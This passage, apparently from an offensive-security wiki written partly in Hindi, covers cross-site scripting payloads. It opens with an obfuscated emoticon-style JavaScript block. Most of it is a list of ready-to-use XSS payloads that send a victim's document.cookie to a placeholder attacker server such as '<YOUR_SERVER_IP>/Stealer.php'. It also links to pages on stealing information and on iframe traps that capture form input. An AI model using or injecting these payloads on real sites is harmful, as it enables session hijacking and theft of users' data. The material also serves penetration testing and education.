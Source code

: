 ```javascript
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
```

```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```
## XSS सामान्य पेलोड

### 1 में कई पेलोड

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### आईफ्रेम ट्रैप

उपयोगकर्ता को एक आईफ्रेम से बाहर निकले बिना पृष्ठ में नेविगेट करने के लिए मजबूर करें और उसकी क्रियाओं को चुराएं (फॉर्म में भेजी गई जानकारी सहित):

{% content-ref url="../iframe-traps.md" %}
[iframe-traps.md](../iframe-traps.md)
{% endcontent-ref %}

### कुकीज़ पुनः प्राप्त करें
```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
```